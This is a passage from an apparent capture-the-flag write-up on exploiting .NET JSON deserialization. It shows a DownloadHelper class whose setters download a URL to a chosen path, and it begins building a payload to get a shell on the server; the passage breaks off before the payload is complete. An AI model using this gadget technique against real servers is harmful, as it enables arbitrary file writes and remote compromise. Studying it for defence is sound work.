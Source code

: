 ```cs
        string result = Source.Remove(place, Find.Length).Insert(place, Replace);
        return result;
    }

    private void Download()
    {
        using (WebClient wc = new WebClient())
        {
            if (!string.IsNullOrEmpty(_URL) && !string.IsNullOrEmpty(_FilePath))
            {
                wc.DownloadFile(_URL, ReplaceLastOccurrence(_FilePath,"\\", "\\21098374243-"));
            }
        }
    }
}
```

This code has public functions to set URL and FilePath, and on setting each, the private Download function is called, which gets a file from URL and saves it at FilePath (with a slight modification).

So if I can create one of these objects, then it will download a file to a location of my choosing.

# Sonny Shell

Now, we can start building our shell manually, to get the server

First we need to mount our payload to be deserealized on the server

We'll use again the [dotnetfiddle](https://dotnetfiddle.net/). Just copy and paste the downloadhelper.cs and fixing the imports

```cs
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System;
using System.Collections.Generic;
using System.Diagnostics;
using System.IO;
using System.Linq;
using System.Net;
using System.Threading.Tasks;
using Newtonsoft.Json;

public class DownloadHelper
    {
        private String _URL;
        private String _FilePath;
        public String URL
        {
            get { return _URL; }
            set
            {
                _URL = value;
                Download();
            }
        }
        public String FilePath
        {
            get { return _FilePath; }
            set
            {
                _FilePath = value;
                Download();
```